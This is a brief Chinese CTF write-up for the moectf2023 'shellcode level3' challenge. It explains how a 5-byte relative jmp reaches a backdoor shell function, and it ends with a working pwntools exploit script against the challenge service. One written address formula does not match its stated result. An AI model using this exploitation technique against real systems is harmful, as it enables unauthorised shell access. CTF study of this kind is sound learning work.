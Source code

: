 ```yaml
---
title: moectf2023 - shellcode level3
date: 2023/9/24 12:00:00
tags:
    - noob
excerpt: 利用后门函数和跳转指令构造shellcode成功执行。
---
```


## 文件分析

下载`shellcode_level3`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序读入5字节并执行，且存在后门函数  
考虑跳转指令执行shellcode跳转到此处

Shellcode: e8 -> call; e9 -> jmp  
后面可跟相对地址（跳转地址-跳转命令所在地址+5）  
相对地址为4Bytes

全局变量code地址0x404089，后门函数`givemeshell`地址0x4011d6  
那么相对地址为0x404089 + 5 - 0x4011d6 = 0xffffd148 `int32_t`

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46239)
sh.sendline(b'\xe9' + p32(0xffffd148))
sh.interactive()
```

Done.
